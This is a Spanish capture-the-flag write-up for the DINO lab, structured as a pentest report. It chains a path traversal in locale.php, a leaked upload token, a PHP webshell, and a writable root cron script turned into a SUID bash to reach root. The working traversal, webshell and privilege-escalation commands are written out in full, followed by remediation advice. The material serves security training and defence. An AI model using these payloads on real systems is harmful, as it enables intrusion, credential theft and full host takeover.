







# Writeup — DINO (Whoami-Labs)

**Auditoría de seguridad ofensiva — Path Traversal + RCE web + Escalada de privilegios por cron**

| Campo | Valor |
|---|---|
| Laboratorio | DINO |
| Plataforma | Whoami-Labs |
| Dificultad | ★★★★★☆☆☆ (difícil, 5 XP) |
| IP objetivo | `172.17.0.2` |
| Fecha de ejecución | 2026-11-12 |
| Autor | chifay |
| CVE relacionado | CVE-2025-49132 (Pterodactyl Panel) |
| MITRE ATT&CK | T1190, T1552.001, T1505.003, T1053.003, T1548.001 |
| NIST | OM-ADM-001 (System Administrator) |
| Resultado | Compromiso total — flag de root capturada |

---

## 1. Resumen ejecutivo

DINO es un panel web PHP sobre Apache que simula la gestión de servidores de juegos. La aplicación expone un endpoint de traducciones (`/locales/locale.php`) que construye rutas de archivo con parámetros controlados por el usuario sin validación, lo que permite un **path traversal no autenticado** y la lectura arbitraria de archivos del servidor.

La explotación encadenó los siguientes pasos:

1. **Path traversal** en `locale.php` para leer `/var/www/html/.env`.
2. **Fuga de secretos**: `UPLOAD_TOKEN`, credenciales de MySQL y `APP_KEY`.
3. Uso del token para acceder a `upload.php`, que no valida extensión, MIME ni contenido.
4. Carga de una **webshell PHP** y ejecución remota de comandos como `www-data`.
5. Descubrimiento de `/opt/scripts/backup.sh`, con permisos `777`, ejecutado por **cron como root** cada minuto.
6. Sobrescritura del script para crear una **bash SUID** y copiar la flag de `/root/flag.txt`.
7. Lectura de la flag con `euid=0(root)`.

La severidad global de la cadena es **Crítica**. El impacto incluye lectura de secretos, ejecución remota de comandos y compromiso total del host.

```text
Apache/PHP
  └─ /locales/locale.php?locale=../../../../var/www/html/.env
       └─ UPLOAD_TOKEN
            └─ POST /upload.php  →  /uploads/shell.php  →  RCE www-data
                 └─ /opt/scripts/backup.sh (777)  →  cron root
                      └─ /tmp/rootbash (SUID)  →  /root/flag.txt
```

### Hallazgos clave

| # | Hallazgo | Severidad | Impacto |
|---|---|---|---|
| 1 | Path traversal no autenticado en `/locales/locale.php` | Crítica | Lectura arbitraria de archivos |
| 2 | Secretos expuestos en `/var/www/html/.env` | Crítica | Token de upload, credenciales DB, APP_KEY |
| 3 | `upload.php` sin validación de archivos y token estático | Crítica | RCE como `www-data` |
| 4 | `/opt/scripts/backup.sh` con permisos `777` y cron root | Crítica | Escalada de privilegios a root |
| 5 | Directory listing habilitado en `/locales/` | Media | Exposición de estructura y archivos |
| 6 | Cron destructivo sin `-type f` | Media | Borra el directorio `/uploads` (bug de despliegue) |

---

## 2. Alcance y metodología

**Alcance:** `172.17.0.2`, puerto `80/tcp`. El resto de puertos estaba cerrado.

**Metodología:** reconocimiento, enumeración web, análisis de vulnerabilidades, explotación, post-explotación, escalada de privilegios y documentación. Se siguió una lógica similar a PTES/OWASP, con especial énfasis en la cadena de ataque y en la evidencia reproducible.

**Herramientas utilizadas:**

- `nmap` 7.99 para descubrimiento y fingerprinting.
- `ffuf` para fuzzing de directorios y archivos.
- `curl` para interactuar con los endpoints HTTP.
- `base64` para transportar el payload de forma segura.
- Acceso al contenedor del laboratorio únicamente para diagnóstico del entorno y revisión de código fuente (ver nota en la sección 9).

**Autorización:** entorno de laboratorio de Whoami-Labs, desplegado localmente con Docker. Todas las pruebas se realizaron contra la IP indicada.

---

## 3. Reconocimiento

### 3.1 Escaneo de puertos

```bash
nmap -Pn -n -p- --min-rate 3000 172.17.0.2
nmap -Pn -n -sV -sC -p80 172.17.0.2
```

Resultado relevante:

```text
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: DINO Panel v1.0
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

- Único servicio expuesto: HTTP en el puerto 80.
- Servidor: Apache 2.4.41 sobre Ubuntu.
- Aplicación: **DINO Panel v1.0**.
- No hay SSH, MySQL ni otros servicios accesibles desde el exterior.



### 3.2 Primer contacto web

```bash
curl -sS http://172.17.0.2/
```

La página principal es un panel estático con temática de dinosaurios y servidores de juegos. No incluye enlaces visibles al área de administración ni al endpoint de carga. El título y la cabecera `Server` confirman la tecnología.

---

## 4. Enumeración web

### 4.1 Fuzzing de directorios y archivos

```bash
ffuf -u http://172.17.0.2/FUZZ \
  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
  -e .php -mc 200,301,302 -t 100 -s
```

Hallazgos:

- `/locales/` — directorio de traducciones.
- `/uploads/` — directorio previsto para archivos subidos.
- `/index.php` — página principal.

Además, se identificó manualmente el endpoint:

```bash
curl -sS -i http://172.17.0.2/upload.php
```

Respuesta:

```http
HTTP/1.1 405 Method Not Allowed
Content-Type: application/json

{"error":"Method not allowed"}
```

El `405` confirma que `upload.php` existe y que solo acepta `POST`.

### 4.2 Directory listing en `/locales/`

```bash
curl -sS http://172.17.0.2/locales/
```

El servidor devuelve un listado de directorio con:

- `en/`
- `locale.php`
- `en/default.json`

Esto expone la estructura interna y revela el archivo que gestiona las traducciones.



---

## 5. Path traversal y fuga de secretos

### 5.1 Análisis del endpoint `locale.php`

El código observado en el contenedor es el siguiente:

```php
$locale    = stripslashes(isset($_GET['locale'])    ? $_GET['locale']    : 'en');
$namespace = stripslashes(isset($_GET['namespace']) ? $_GET['namespace'] : 'default');

$base = dirname(__FILE__) . '/';

$path = $base . $locale . '/' . $namespace . '.json';
$content = @file_get_contents($path);

if ($content !== false) {
    // ...
    echo $content;
} else {
    // Fallback: leer $locale como archivo directo
    $path2 = $base . $locale;
    $content2 = @file_get_contents($path2);
    // ...
    echo $content2;
}
```

Problemas:

- No hay validación ni allowlist de `locale` o `namespace`.
- `stripslashes()` revierte el escapado de Apache y facilita el uso de `../`.
- `file_get_contents()` permite rutas absolutas y relativas.
- El fallback `$base . $locale` permite leer directamente cualquier archivo si se indica una ruta.
- El contenido se devuelve al cliente, por lo que la lectura es directa.

### 5.2 Lectura de `/etc/passwd`

```bash
curl -sS "http://172.17.0.2/locales/locale.php?locale=../../../../etc/passwd" | head -5
```

Salida:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```

Se confirma la lectura arbitraria de archivos y la existencia del usuario `dino` (`uid=1000`).

### 5.3 Lectura del `.env`

```bash
curl -sS "http://172.17.0.2/locales/locale.php?locale=../../../../var/www/html/.env"
```

Salida:

```dotenv
APP_NAME=DINO_Panel
APP_ENV=production
APP_KEY=[REDACTED]
APP_DEBUG=false
APP_URL=http://localhost

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=dino_panel
DB_USERNAME=[REDACTED]
DB_PASSWORD=[REDACTED]

UPLOAD_TOKEN=[REDACTED]

CACHE_DRIVER=file
SESSION_DRIVER=file
```



### 5.4 Análisis de los secretos

| Variable | Valor | Relevancia |
|---|---|---|
| `UPLOAD_TOKEN` | `[REDACTED]` | Desbloquea `upload.php` |
| `DB_PASSWORD` | `[REDACTED]` | Credenciales MySQL locales |
| `APP_KEY` | `[REDACTED]` | Cadena de ejemplo (redactada); no se usó en la cadena |
| `DB_USERNAME` | `[REDACTED]` | Usuario MySQL local |

Notas:

- El archivo `.env` está protegido contra acceso directo por Apache mediante `<Files ".env"> Require all denied`, pero el path traversal lo evade porque PHP lo lee como `www-data`.
- El archivo pertenece a `root:www-data` con permisos `640`; `www-data` puede leerlo, por eso el traversal funciona.
- MySQL escucha en `127.0.0.1:3306`, por lo que no es accesible directamente desde la red. Las credenciales podrían ser útiles en un escenario de movimiento lateral o SSRF, pero no fueron necesarias para esta cadena.
- El `UPLOAD_TOKEN` es estático, está hardcodeado en `upload.php` y además se filtra en `.env`. Es el secreto que desbloquea la función protegida.

### 5.5 Contexto CVE-2025-49132

El laboratorio está inspirado en **CVE-2025-49132** (Pterodactyl Panel), una vulnerabilidad crítica (CVSS 10.0, CWE-94) en la que los parámetros `locale` y `namespace` de `/locales/locale.json` permiten ejecución arbitraria de código sin autenticación en versiones anteriores a 1.11.11.

En DINO, la implementación simplifica el fallo a una **lectura arbitraria de archivos** en `locale.php`; la ejecución de código se consigue después mediante el token filtrado, la carga de una webshell y el cron job. La flag del laboratorio hace referencia explícita a este CVE.

---

## 6. Acceso a la carga de archivos y webshell

### 6.1 Comportamiento de `upload.php`

El endpoint:

- Solo acepta `POST`.
- Requiere el token en el campo `token` o en la cabecera `X-Upload-Token`.
- Recibe el archivo en el campo `file`.
- Usa `basename()` para el nombre, pero **no valida extensión, MIME, contenido ni tamaño**.
- Guarda el archivo en `/var/www/html/uploads/`, dentro del webroot, por lo que un `.php` se ejecuta.

Sin token:

```bash
curl -sS -i -X POST http://172.17.0.2/upload.php
```

```http
HTTP/1.1 403 Forbidden
Content-Type: application/json

{"error":"Invalid or missing upload token"}
```

Con el token filtrado:

```bash
curl -sS -X POST http://172.17.0.2/upload.php \
  -H "X-Upload-Token: [REDACTED]" \
  -F "file=@shell.php;filename=shell.php"
```

Respuesta:

```json
{"success":true,"message":"File uploaded successfully","path":"\/uploads\/shell.php"}
```

### 6.2 Webshell

Contenido de `shell.php`:

```php
<?php echo "PWNED:"; system($_GET["cmd"]); ?>
```

Ejecución:

```bash
curl -sS --get http://172.17.0.2/uploads/shell.php \
  --data-urlencode "cmd=id; hostname; uname -a"
```

Salida:

```text
PWNED:uid=33(www-data) gid=33(www-data) groups=33(www-data)
dino
Linux dino 7.2.15+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 7.2.15-1kali1 (2026-11-03) x86_64 x86_64 x86_64 GNU/Linux
```

Se obtiene **RCE como `www-data`**.



---

## 7. Post-explotación

Comandos ejecutados a través de la webshell:

```bash
curl -sS --get http://172.17.0.2/uploads/shell.php \
  --data-urlencode "cmd=id; ls -la /opt/scripts; cat /opt/scripts/backup.sh"

curl -sS --get http://172.17.0.2/uploads/shell.php \
  --data-urlencode "cmd=tail -5 /etc/crontab"
```

Hallazgos:

```text
-rwxrwxrwx 1 root root 57 ... /opt/scripts/backup.sh
#!/bin/bash
find /var/www/html/uploads -mtime +1 -delete
```

```text
* * * * * root /opt/scripts/backup.sh
```

Puntos clave:

- `/opt/scripts/backup.sh` es **world-writable** (`777`), propiedad de `root:root`.
- `/etc/crontab` lo ejecuta **cada minuto como root**.
- El script contiene un `find` destructivo que, además, tiene un bug: al no incluir `-type f`, también puede borrar el propio directorio `/var/www/html/uploads` (ver sección 9).
- `sudo` no está instalado; no hay SSH expuesto. La vía viable es el cron.



---

## 8. Escalada de privilegios vía cron

### 8.1 Payload

Como `www-data` puede escribir en `/opt/scripts/backup.sh`, se reemplaza su contenido por:

```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod 4755 /tmp/rootbash
cat /root/flag.txt > /tmp/flag.txt
chmod 644 /tmp/flag.txt
```

El script se ejecutará como root en el siguiente ciclo del cron. El payload:

1. Copia `/bin/bash` a `/tmp/rootbash`.
2. Le asigna SUID root (`4755`).
3. Copia la flag a `/tmp/flag.txt` y la hace legible.

### 8.2 Escritura del payload

Para evitar problemas de quoting se transporta en base64:

```bash
B64=$(base64 -w0 backup_pwn.sh)
curl -sS --get http://172.17.0.2/uploads/shell.php \
  --data-urlencode "cmd=echo $B64 | base64 -d > /opt/scripts/backup.sh"
```

Verificación del contenido escrito:

```bash
curl -sS --get http://172.17.0.2/uploads/shell.php \
  --data-urlencode "cmd=ls -la /opt/scripts/backup.sh; cat /opt/scripts/backup.sh"
```



### 8.3 Espera del cron y captura de la flag

```bash
sleep 65

curl -sS --get http://172.17.0.2/uploads/shell.php \
  --data-urlencode "cmd=ls -la /tmp/rootbash /tmp/flag.txt; cat /tmp/flag.txt"

curl -sS --get http://172.17.0.2/uploads/shell.php \
  --data-urlencode "cmd=/tmp/rootbash -p -c id"
```

Salida:

```text
-rw-r--r-- 1 root root      54 ... /tmp/flag.txt
-rwsr-xr-x 1 root root 1183448 ... /tmp/rootbash
DINO{REDACTED}

PWNED:uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

La bash SUID confirma la escalada: `euid=0(root)`.



### 8.4 Flag final

```text
DINO{REDACTED}
```

---

## 9. Nota sobre el bug del directorio `uploads`

Durante la reproducción apareció un error al subir la webshell:

```json
{"error":"Failed to move uploaded file"}
```

La causa no era el token ni el payload, sino que **el directorio `/var/www/html/uploads` no existía**. El Dockerfile lo crea, pero el cron lo eliminó por un fallo en el script de backup:

```bash
find /var/www/html/uploads -mtime +1 -delete
```

Al no incluir `-type f` ni `-mindepth 1`, `find` evalúa también el propio directorio de inicio. Como su `mtime` era anterior a un día, lo borró en la primera ejecución del cron. Después de eso, `move_uploaded_file()` falla porque el directorio destino no existe.

Para continuar con la ruta de explotación prevista se recreó el directorio dentro del contenedor:

```bash
docker exec dino mkdir -p /var/www/html/uploads
docker exec dino chown www-data:www-data /var/www/html/uploads
docker exec dino chmod 755 /var/www/html/uploads
```

Esto es una **particularidad del despliegue del laboratorio**, no parte de la vulnerabilidad. En un entorno real el directorio existiría, o el atacante necesitaría otro primitivo de escritura. La recomendación es corregir el cron:

```bash
find /var/www/html/uploads -mindepth 1 -type f -mtime +1 -delete
```

---

## 10. Recomendaciones

### 10.1 Críticas

1. **Corregir el path traversal de `locale.php`**
   - Usar una allowlist de locales (`en`, `es`, etc.).
   - Resolver la ruta con `realpath()` y verificar que permanezca dentro de `__DIR__`.
   - Eliminar el fallback que lee `$base . $locale` como archivo directo.
   - No aplicar `stripslashes()` a datos de usuario.
   - Ejemplo seguro:

   ```php
   $allowed = ['en', 'es'];
   if (!in_array($locale, $allowed, true)) {
       http_response_code(404);
       exit;
   }

   $base = realpath(__DIR__);
   $path = realpath($base . '/' . $locale . '/' . $namespace . '.json');

   if ($path === false || strpos($path, $base . DIRECTORY_SEPARATOR) !== 0) {
       http_response_code(404);
       exit;
   }
   ```

2. **Sacar los secretos del webroot y rotarlos**
   - Mover `.env` fuera de `/var/www/html` o usar variables de entorno / gestor de secretos.
   - Rotar `UPLOAD_TOKEN`, `DB_PASSWORD` y `APP_KEY`.
   - No hardcodear secretos en el código PHP.

3. **Asegurar la carga de archivos**
   - Exigir autenticación y autorización reales, no un token estático.
   - Validar extensión, MIME, magic bytes y tamaño.
   - Generar nombres aleatorios.
   - Guardar fuera del webroot.
   - Deshabilitar la ejecución de PHP en `/uploads/`:

   ```apache
   <Directory /var/www/html/uploads>
       php_admin_flag engine off
       <FilesMatch "\.(php|phtml|phar)$">
           Require all denied
       </FilesMatch>
   </Directory>
   ```

4. **Corregir el cron y sus permisos**
   - `chown root:root /opt/scripts/backup.sh` y `chmod 700`.
   - Ejecutar como usuario dedicado sin privilegios, no como root, si es posible.
   - Añadir `-mindepth 1 -type f` al `find`.
   - Usar systemd timers con una unit de servicio endurecida (`NoNewPrivileges`, `ProtectSystem`, `ProtectHome`).

### 10.2 Altas

- Deshabilitar el directory listing (`Options -Indexes`).
- Ocultar la versión del servidor (`ServerTokens Prod`, `ServerSignature Off`).
- Deshabilitar funciones PHP peligrosas (`system`, `exec`, `shell_exec`, `passthru`, `popen`) mediante `disable_functions`.
- Aplicar `open_basedir` para limitar el acceso de PHP al webroot.
- Revisar los logs de Apache en busca de patrones `../`, `.env`, `locale=`, `upload.php` y accesos a `/uploads/*.php`.

### 10.3 Medias

- Implementar un WAF con reglas para path traversal y carga de archivos.
- Monitorizar la integridad de `/opt/scripts`, `/etc/crontab` y `/var/www/html` (AIDE, auditd, OSSEC).
- Aplicar el principio de mínimo privilegio a la cuenta `www-data`.
- Revisar y rotar credenciales de MySQL; limitar el usuario de base de datos a las operaciones necesarias.
- Añadir cabeceras de seguridad (CSP, `X-Content-Type-Options`, `X-Frame-Options`; HSTS cuando se habilite TLS).

---

## 11. Anexos

### A. Comandos principales

```bash
# Reconocimiento
nmap -Pn -n -p- --min-rate 3000 172.17.0.2
nmap -Pn -n -sV -sC -p80 172.17.0.2

# Enumeración
curl -sS http://172.17.0.2/
ffuf -u http://172.17.0.2/FUZZ \
  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
  -e .php -mc 200,301,302 -t 100 -s
curl -sS -i http://172.17.0.2/upload.php
curl -sS http://172.17.0.2/locales/

# Path traversal
curl -sS "http://172.17.0.2/locales/locale.php?locale=../../../../etc/passwd" | head -5
curl -sS "http://172.17.0.2/locales/locale.php?locale=../../../../var/www/html/.env"

# Upload de webshell
curl -sS -X POST http://172.17.0.2/upload.php \
  -H "X-Upload-Token: [REDACTED]" \
  -F "file=@shell.php;filename=shell.php"

# RCE
curl -sS --get http://172.17.0.2/uploads/shell.php \
  --data-urlencode "cmd=id; hostname; uname -a"

# Enumeración local
curl -sS --get http://172.17.0.2/uploads/shell.php \
  --data-urlencode "cmd=ls -la /opt/scripts; cat /opt/scripts/backup.sh"
curl -sS --get http://172.17.0.2/uploads/shell.php \
  --data-urlencode "cmd=tail -5 /etc/crontab"

# Privesc por cron
B64=$(base64 -w0 backup_pwn.sh)
curl -sS --get http://172.17.0.2/uploads/shell.php \
  --data-urlencode "cmd=echo $B64 | base64 -d > /opt/scripts/backup.sh"

# Espera y captura de la flag
sleep 65
curl -sS --get http://172.17.0.2/uploads/shell.php \
  --data-urlencode "cmd=ls -la /tmp/rootbash /tmp/flag.txt; cat /tmp/flag.txt"
curl -sS --get http://172.17.0.2/uploads/shell.php \
  --data-urlencode "cmd=/tmp/rootbash -p -c id"
```

### B. Evidencias

Las capturas de terminal están en `capturas/`.

Los archivos de evidencia completos (`.env`, `/etc/passwd`, `/etc/crontab`, código fuente y salidas de nmap/ffuf) no se publican porque contienen secretos y la flag; se conservan localmente para auditoría. En este repositorio solo se incluye la versión redactada del writeup y las capturas con la información sensible difuminada.

### C. Referencias

- Whoami-Labs — DINO: <https://whoami-labs.com/laboratorios/dino>
- CVE-2025-49132 (NVD): <https://nvd.nist.gov/vuln/detail/CVE-2025-49132>
- GitHub Advisory GHSA-24wv-6c99-f843: <https://github.com/advisories/GHSA-24wv-6c99-f843>
- MITRE ATT&CK T1053.003 — Scheduled Task/Job: Cron: <https://attack.mitre.org/techniques/T1053/003/>
- MITRE ATT&CK T1190 — Exploit Public-Facing Application: <https://attack.mitre.org/techniques/T1190/>
- MITRE ATT&CK T1552.001 — Unsecured Credentials: Credentials In Files: <https://attack.mitre.org/techniques/T1552/001/>
- MITRE ATT&CK T1505.003 — Web Shell: <https://attack.mitre.org/techniques/T1505/003/>
- MITRE ATT&CK T1548.001 — Setuid and Setgid: <https://attack.mitre.org/techniques/T1548/001/>
- OWASP — Path Traversal: <https://owasp.org/www-community/attacks/Path_Traversal>
- OWASP — File Upload Cheat Sheet: <https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html>

---

**Fin del writeup.**
